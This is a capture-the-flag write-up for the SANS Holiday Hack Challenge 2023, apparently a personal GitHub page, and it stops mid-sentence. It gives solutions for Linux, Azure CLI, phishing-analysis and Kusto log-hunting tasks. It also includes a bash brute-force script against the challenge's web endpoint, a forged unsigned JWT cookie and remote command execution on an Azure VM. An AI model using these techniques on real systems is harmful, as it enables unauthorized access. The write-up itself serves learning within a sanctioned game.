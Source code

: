 # SANS Holiday Hack Challenge 2023

---

## Objective: Holiday Hack Orientation

To start you need to maneuver your boat and dock at Christmas Island: Oritentation

![Picture of boat at sea heading towards Orientation Island](/docs/assets/images/Dock.png)

### Task 1: First Terminal Challenge

This is just to get your feet wet, simply enter

```
answer
```

to complete the challenge.

![](/docs/assets/images/Orientation.png)

---

## Objective: Snowball Fight

You could play with another player to fight Santa and win, but that defeats the whole purpose of hacking...

If you look at the source code of the iframe, you will find a singlePlayer variable. You will see that if it is set to "true", a computer player is added to the game allowing you to play solo. 

![](/docs/assets/images/SinglePlayer.png)

Once you load into a private room, you can view the frame info to find the URL the frame is loading from. You will see the singleplayer variable set to false. If you copy the URL and update the <iframe> tag in Inspect with that URL and setting that variable to "true" it will load a single player game. 

Once you defeat Santa, you achieve GLORY!

![](/docs/assets/images/VICTORY.png)

However... why stop there?! You can also use the console once the game is started to alter other variables such as snowballDmg, playersVelocity, santaThrowDelay and more. There's many ways to make this challenge more fun. Pelting elves with no damage taken, who doesn't enjoy that?!

![](/docs/assets/images/Variables.png)

---

## Objective: Linux 101

Task 1: Perform a directory listing of your home directory to find a troll and retrieve a present!

Answer:

```
ls
```

Task 2: Now find the troll inside the troll.

Answer: 

```
cat troll 19315479765589239
```

Task 3: Great, now remove the troll in your home directory.

Answer: 

```
rm troll 19315479765589239
```

Task 4: Print the present working directory using a command.

Answer: 

```
pwd
```

Task 5: Good job but it looks like another troll hid itself in your home directory. Find the hidden troll!

Answer: 

```
ls -la
cat .troll_5074624024543078
```

Task 6: Excellent, now find the troll in your command history.

Answer: 

```
history
```

Task 7: Find the troll in your environment variables.

Answer: 

```
env
```

Task 8: Next, head into the workshop.

Answer: 

```
cd workshop
```

Task 9: A troll is hiding in one of the workshop toolboxes. Use "grep" while ignoring case to find which toolbox the troll is in.

Answer: 

```
grep -ri "troll"
```

Task 10: 

Answer: 

```
chmod +x present engine
./present engine
```

Task 11: Trolls have blown the fuses in /home/elf/workshop/electrical. cd into electrical and rename blown_fuse0 to fuse0.

Answer: 

```
cd /home/elf/workshop electrical
mv blown_fuse0 fuse0
```

Task 12:  Now, make a symbolic link (symlink) named fuse1 that points to fuse0

Answer:

```
ln -s fuse0 fuse1
```

Task 13: Make a copy of fuse1 named fuse2.

Answer: 

```
cp fuse1 fuse2
```

Task 14: We need to make sure trolls don't come back. Add the characters "TROLL_REPELLENT" into the file fuse2

Answer: 

```
echo "TROLL_REPELLENT" > fuse2
```

Task 15: Find the troll somewhere in /opt/troll_den.

Answer: 

```
find /opt/troll_den/ -iname "troll*"
```

Task 16: Find the file somewhere in /opt/troll_den that is owned by the user troll.

Answer: 

```
find /opt/troll_den/ -user "troll"
```

Task 17: Find the file created by trolls that is greater than 108 kilobytes and less than 110 kilobytes located somewhere in /opt/troll_den.

Answer: 

```
find /opt/troll_den/ -size +108k -size -110k
```

Task 18: List running processes to find another troll

Answer: 

```
ps aux
```

Task 19: The 14516_troll process is listening on a TCP port. Use a command to have the only listening port display to the screen.

Answer:

```
netstat -l
```

Task 20: The service listening on port 54321 is an HTTP server. Interact with this server to retrieve the last troll.

Answer: 

```
curl 0.0.0.0:54321
```

Task 21: Your final task is to stop the 14516_troll process to collect the remaining presents.

Answer:

```
ps aux
kill 12771
```

---

## Objective: Reportinator

I decided to take the easy way out and brute force this one. To brute force this, I utilized BurpSuite's proxy module to help capture a submission attempt. This helped me realize that for each of the 9 findings, they were simply included in the HTTP POST as input1 through input9. A valid finding was set to and a hallucination was set to 1.  



I then utilized my good friend, ChatGPT, to quickly script up a bash script to automate brute forcing against the application. After a lot of debugging and trial and error, the below script ultimately worked. 

```bash
#!/bin/bash

url="http://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com/check"

# Set the cookies
cookies="ReportinatorCookieYum=eyJ1c2VyaWQiOiI3NjhmOTNkNi0xNDc3LTQ0ZTYtOWZhMC0yMzg1NjM4OTk3YTYifQ.ZXcm6g.QnBaeGlhHzGVdw5Aw4ZETgqQzU8"

for a in 0 1; do
  for b in 0 1; do
    for c in 0 1; do
      for d in 0 1; do
        for e in 0 1; do
          for f in 0 1; do
            for g in 0 1; do
              for h in 0 1; do
                for i in 0 1; do
                  response_code=$(curl -s -w "%{http_code}" -o /dev/null -X POST -H "Host: hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com" \
                                          -H "User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0" \
                                          -H "Accept: */*" \
                                          -H "Accept-Language: en-US,en;q=0.5" \
                                          -H "Accept-Encoding: gzip, deflate, br" \
                                          -H "Referer: http://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com/?&challenge=reportinator&" \
                                          -H "Content-Type: application/x-www-form-urlencoded" \
                                          -H "Content-Length: 89" \
                                          -H "Origin: http://hhc23-reportinator-dot-holidayhack2023.ue.r.appspot.com" \
                                          -H "Connection: close" \
                                          -H "Cookie: $cookies" \
                                          -d "input-1=$a&input-2=$b&input-3=$c&input-4=$d&input-5=$e&input-6=$f&input-7=$g&input-8=$h&input-9=$i" \
                                          $url)

                  echo "Attempt for a=$a b=$b c=$c d=$d e=$e f=$f g=$g h=$h i=$i - Response code: $response_code"

                  if [ "$response_code" -eq 200 ]; then
                    echo "Success for a=$a b=$b c=$c d=$d e=$e f=$f g=$g h=$h i=$i"
                    exit 0  # You can exit the script if a successful response is received
                  else
                    echo "Retry for a=$a b=$b c=$c d=$d e=$e f=$f g=$g h=$h i=$i"
                  fi
                done
              done
            done
          done
        done
      done
    done
  done
done

echo "No successful combination found."
exit 1

```

Script output:

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ ./brute\ \(copy\ 1\).sh 
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=0 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=0 f=1 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=0 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=0 e=1 f=1 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=0 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=0 f=1 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=0 g=1 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=0 h=1 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=0 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=0 i=1
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=1 i=0
Attempt for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=0 d=1 e=1 f=1 g=1 h=1 i=1
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=0 i=0
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=0 i=1
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=1 i=0
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=0 h=1 i=1
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=0 i=0
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=0 i=1 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=0 i=1
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=1 i=0 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=1 i=0
Attempt for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=1 i=1 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=0 g=1 h=1 i=1
Attempt for a=0 b=0 c=1 d=0 e=0 f=1 g=0 h=0 i=0 - Response code: 400
Retry for a=0 b=0 c=1 d=0 e=0 f=1 g=0 h=0 i=0
Attempt for a=0 b=0 c=1 d=0 e=0 f=1 g=0 h=0 i=1 - Response code: 200
Success for a=0 b=0 c=1 d=0 e=0 f=1 g=0 h=0 i=1

```

After finding my successful combination, I re-launched the game and submitted a report with findings 3, 6, and 9 marked as hallucinations. 

GLORY!



---

## Objective: Azure 101

Task 1: You may not know this but the Azure cli help messages are very easy to access. First, try typing:
$ az help | less

Answer: 

```
az help | less
```

Task 2: Next, you've already been configured with credentials. Use 'az' and your 'account' to 'show' your current details and make sure to pipe to less ( | less )

Answer: 

```
az account show | less
```

![](/docs/assets/images/azshow.png)

Task 3: Excellent! Now get a list of resource groups in Azure.
For more information:
https://learn.microsoft.com/en-us/cli/azure/group?view=azure-cli-latest

Answer: 

```
az group list
```

![](/docs/assets/images/azgroup.png)

Task 4: Ok, now use one of the resource groups to get a list of function apps. For more information:
https://learn.microsoft.com/en-us/cli/azure/functionapp?view=azure-cli-latest
Note: Some of the information returned from this command relates to other cloud assets used by Santa and his elves.

Answer: 

```
az functionapp list -g "northpole-rg1"
```

You could've also used northpole-rg2 here. This also revealed an interesting URL: https://northpole-ssh-certs-fa.azurewebsites.net/api/create-cert?code=candy-cane-twirl

![](/docs/assets/images/azfunctionapp.png)

Task 5: Find a way to list the only VM in one of the resource groups you have access to.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm?view=azure-cli-latest

Answer: 

```
az vm list -g "northpole-rg2"
```

![](/docs/assets/images/azvms.png)

Task 6: Find a way to invoke a run-command against the only Virtual Machine (VM) so you can RunShellScript and get a directory listing to reveal a file on the Azure VM.
For more information:
https://learn.microsoft.com/en-us/cli/azure/vm/run-command?view=azure-cli-latest#az-vm-run-command-invoke

Answer: 

```
az vm run-command invoke -g northpole-rg2 -n NP-VM1 --command-id RunShellScript --scripts "ls"
```

![](/docs/assets/images/azls.png)

---

## Objective: Elf Hunt

After reading about JSON Web Tokens (JWTs), I learned about a flaw to force the server to accept a token with no signature present. I found a cookie that appeared to be the JWT for Elf Hunt called "ElfHunt_JWT". The JWT was already flawed since the "alg" parameter was set to none, which made my job easier. I simply had to decode the cookie using CyberChef. It took a few tries messing around with the speed until the elves were just fast enough...

Original Cookie: 

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwMH0.
```

Decoded Original: 

```
{"alg":"none","typ":"JWT"}>{"speed":-500}>
```

Answer: I ended up finding that -50 was a good speed. I replaced the cookie in my session with my new base64 encoded speed variable. The full cookie value became 

```
eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJzcGVlZCI6LTUwfT4.
```

GLORY:

![](/docs/assets/images/elfhunt.png)

---

## Objective: Certificate SSHenanigans

Domain: **ssh-server-vm.santaworkshopgeeseislands.org** 

Account: **monitor**

Goal: **access TODO list**

---

## Objective: Faster Lock Combination

When applying tension to the shackle and turning the dial clockwise, the number that the lock repeatedly hangs on is the sticky number. 

Sticky Number: 20

When applying heavy tension to the shackle and turning the lock counter clockwise, the numbers we are looking for will sit between two half numbers and will be between 0-11

Guess Number 1: 0

Guess Number 2: 3

First Digit: Sticky Number + 5 = ***25***

Third Digit: 13  OR 33, 13 feels more loose when applying tension to the shackle so we can eliminate 33 as an option

Third Digit Process: 

First Digit/4 = 6 with remainder of 1

Guess Numbers: 0 & 3

0    10    20   30

3    13    23    33

13/4 = 4 with remainder of 1 & 33/4 = 8 with remainder of 1

Second Digit Process:

First Row Below: Remainder + 2  = 3

Add 8 to it 4 times, exceeding 39 resets to 0

Second Row Below: remainder + 2 + 4 = 7

Add 8 to it 4 times, exceeding 39 resets to 0

3    ~~11~~    19    27    35

7    ~~15~~     23    31    39

The second and third digit on the lock cannot be within 2 digits of eachother, we can eliminate 15 & 17 from our second digit guesses. 

After trying the 8 options, our true combination is: 25, 39, 13!

If you want to "hack" the challenge instead, you can look at the javascript variables in the iframe to reveal the combination for your session. The variable that holds the combination is: lock_numbers

![](/docs/assets/images/lock.png)

You can also edit the lock combination that the game is looking for if you'd like. This just makes it faster to solve the combo :D

![](/docs/assets/images/editlock.png)

---

## Objective: Phish Detection Agency

Valid SPF: 

| Domain           | Type | Value                               |
| ---------------- | ---- | ----------------------------------- |
| geeseislands.com | TXT  | v=spf1 a:mail.geeseislands.com -all |

Valid DKIM:

| Domain           | Type | Value                                                                                                                                                                                                                                  |
| ---------------- | ---- | -------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DKIM1;t=s;p=MIGfMA0GCSqGSIb3DQEBAQUAA4GNADCBiQKBgQDjtqsLqwecFGF7AmP+Siln86O1v9NOKJw4ZsEHDV5fo0Vjj0qNPyyARKSkDmnIKjnzLGUUQO31Fr+vdZU61IaI9/ZD39WJKaAeX96uQ65mRQqqPVYxPLN5OvuFRmIHJ/TgOkD6z5/7VM7Zs1kw5Qnl04FmOLwWd00D+uNZnj8TCwIDAQAB |

Valid DMARC:

| Domain           | Type | Value                                                                  |
| ---------------- | ---- | ---------------------------------------------------------------------- |
| geeseislands.com | TXT  | v=DMARC1; p=reject; pct=100; rua=mailto:dmarc-reports@geeseislands.com |

In this challenge we had to weed through all the emails in the Inbox along with those that were already in the Phishing folder to determine if ChatNPT properly assessed the emails. The key piecees to look at in the email headers displayed was:

Return-Path - if the return path was not for emailaddress@geeseislands.com the email should be marked as malicious, as all mail is expected to be from that domain in this challenge

DMARC - if this value is set to "Fail", you can assume phishing in this challenge

DKIM-Signature - if the domain value (d=) in the signature is not geeseislands.com, you can assume it is a phishing email OR if this is just showing "Invalid"

Recieved - If the received field is from a different domain than the expected sender of geeseislands.com, you can assume it is a phishing email

Phish email example 1:

![](/docs/assets/images/phish1.png)

Phish email example 2:

![](/docs/assets/images/phish2.png)

Valid email example 1:

![](/docs/assets/images/valid1.png)

GLORY:

![](/docs/assets/images/acedetect.png)

---

## Objective: Na'an

If you cover both the numerical low (0) and high (9) and use NaN as one of the options, the other numbers you place do not matter. The evaluation will fail in your favor. As long as you cover the extremes, NaN will be seen as winner for both min and max due to the python evaluation error. 

GLORY:

![](/docs/assets/images/nan.png)

---

## Operation: Kusto Detective

Onboarding: How many craftperson elves are using laptops?

![](/docs/assets/images/kd1.png)

Answer: *25*

Case 1: Welcome to Operation Giftwrap: Defending the Geese Island network

Question 1: What is the email address of the employee who received this phishing email?

![](/docs/assets/images/kd2.png)

Answer: 

```
alabaster_snowball@santaworkshopgeeseislands.org
```

Question 2: What is the email address that was used to send this spear phishing email?

![](/docs/assets/images/kd3.png)

Answer: 

```
 cwombley@gmail.com
```

Question 3: What was the subject line used in the spear phishing email?

![](/docs/assets/images/kd4.png)

Answer: 

```
[EXTERNAL] Invoice foir reindeer food past due
```

Case 2: Someone got phished! Let's dig deeper on the victim...

Question 1: What is the role of our victim in the organization?

![](/docs/assets/images/kd5.png)

Answer: 

```
Head Elf
```

Question 2: What is the hostname of the victim's machine?

![](/docs/assets/images/kd6.png)

Answer: 

```
Y1US-DESKTOP
```

Question 3: What is the source IP linked to the victim?

![](/docs/assets/images/kd7.png)

Answer: 

```
10.10.0.4
```

Case 3: That's not good. What happened next?

Question 1: What time did Alabaster click on the malicious link? Make sure to copy the exact timestamp from the logs!

![](/docs/assets/images/kd8.png)

Answer: 

```
2023-12-02T10:12:42Z
```

Question 2: What file is dropped to Alabaster's machine shortly after he downloads the malicious file?

![](/docs/assets/images/kd9.png)

Answer: 

```
giftwrap.exe
```

Case 4: A compromised host! Time for a deep dive.

Question 1: The attacker created an reverse tunnel connection with the compromised machine. What IP was the connection forwarded to?

![](/docs/assets/images/kd10.png)

Answer: 

```
113.37.9.17
```

Question 2: What is the timestamp when the attackers enumerated network shares on the machine?

![](/docs/assets/images/kd11.png)

Answer: 

```
2023-12-02 16:51:44.0000000
```

Question 3: What was the hostname of the system the attacker moved laterally to?

![](/docs/assets/images/kd12.png)

Answer: 

```
NorthPolefileshare
```

Case 5: A hidden message

Question 1: When was the attacker's first base64 encoded PowerShell command executed on Alabaster's machine?

![](/docs/assets/images/kd13.png)

Answer: 

```
2023-12-24 16:07:47.0000000
```

Question 2: What was the name of the file the attacker copied from the fileshare? (This might require some additional decoding)

We can check out the first encoded powershell command after the attacker accessed the fileshare.

![](/docs/assets/images/kd14.png)

After base64 decoding, we can see that this is also reversed. We can use the reverse() command to assist here and reveal the answer.

![](/docs/assets/images/kd15.png)

Answer: 

```
NaughtyNiceList.txt
```

Question 3: The attacker has likely exfiltrated data from the file share. What domain name was the data exfiltrated to?

We can review the next powershell command after the file was copied. 

![](/docs/assets/images/kd16.png)

After base64 decoding, we can see that this command is also encoded in decimal. We need to convert this to ASCII for it to be easily legible.

![](/docs/assets/images/kd17.png)

I used: [charcode encoder-decoder](https://codepen.io/HerbertAnchovy/pen/XLzdYr) to decode the char decimal into ASCII, which revealed our answer.

![](/docs/assets/images/kd18.png)

Answer: 

```
giftbox.com
```

Case 6: The final step!

Question 1: What is the name of the executable the attackers used in the final malicious command?

![](/docs/assets/images/kd20.png)

Answer: 

```
downwithsanta.exe
```

Question 2: What was the command line flag used alongside this executable?

We can use the same decoded powershell to find the answer for this question.

![](/docs/assets/images/kd20.png)

Answer: 

```
--wipeall
```

HHC23 Badge Answer

After completing all the cases, you are presented with one final encoded command: 

```javascript
print base64_decode_tostring('QmV3YXJlIHRoZSBDdWJlIHRoYXQgV29tYmxlcw==')
```

![](/docs/assets/images/kd21.png)

We can put 

```javascript
Beware the Cube that Wombles
```

into our badge on HHC23 to achieve GLORY!

---

## Objective: Game Cartridges: Vol 1

For this game, the goal is to move pixels of the QR code back to their correct place. There are 7 pixels out of place. As you send music notes through misplaced pixels they'll flash, make music, and a flashing square will appear where it shoud go. You simply push your character against the block to move it, you cannot pull a block or push.

Known controls:

- arrows keys to move around

- (e) = a on the gameboy

- (r) = b on the gameboy, for this game it shoots out the music notes

If you look in the js/script.js file, you can find some additional controls that are unlisted.

```javascript
  bindKeys() {
    this.keyFuncs = {
      Backspace: this.keyRewind.bind(this),
      " ": this.keyPause.bind(this),
      "[": this.keyPrevPalette.bind(this),
      "]": this.keyNextPalette.bind(this),
    };
```

In the order shown, these allow you to:

